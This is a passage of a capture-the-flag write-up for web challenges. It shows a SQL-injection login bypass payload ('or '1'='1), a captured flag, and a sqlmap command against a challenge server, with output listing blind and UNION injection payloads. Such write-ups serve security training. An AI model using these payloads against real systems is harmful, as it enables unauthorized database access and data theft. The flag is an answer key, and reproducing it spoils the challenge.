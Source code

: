 ![](/assets/images/move/1551617164817-353ffa97-27b8-4509-973d-0cc503b475b4.png)

Payload: 万能密码, 注入点在password，`password=' or '1'='1`成功登陆。

flag{7ae7de60f14eb3cbd9403a0c4328598d}

## web5 injection

hint: injection

![](/assets/images/move/1551617377026-b8dac252-2847-46ce-82e6-00d9e2797a0a.png)

```sql
> sqlmap -u "http://47.95.208.167:10005/?mod=read&id=1" -p "id" -v 3

Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: mod=read&id=2 AND 6548=6548
    Vector: AND [INFERENCE]

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 RLIKE time-based blind
    Payload: mod=read&id=2 RLIKE SLEEP(5)
    Vector: RLIKE (SELECT [RANDNUM]=IF(([INFERENCE]),SLEEP([SLEEPTIME]),[RANDNUM]))


    Type: UNION query
    Title: Generic UNION query (NULL) - 4 columns
    Payload: mod=read&id=-1362 UNION ALL SELECT NULL,CONCAT(0x716b706b71,0x6b705a4550514d7864627845624c7252716d53456758474165446c66654e4a6b43714d776b767255,0x716b6a6b71),NULL,NULL-- vymr
    Vector:  UNION ALL SELECT NULL,[QUERY],NULL,NULL[GENERIC_SQL_COMMENT]
---
[21:03:29] [INFO] the back-end DBMS is MySQL
web application technology: Nginx
back-end DBMS: MySQL >= 5.0.12
```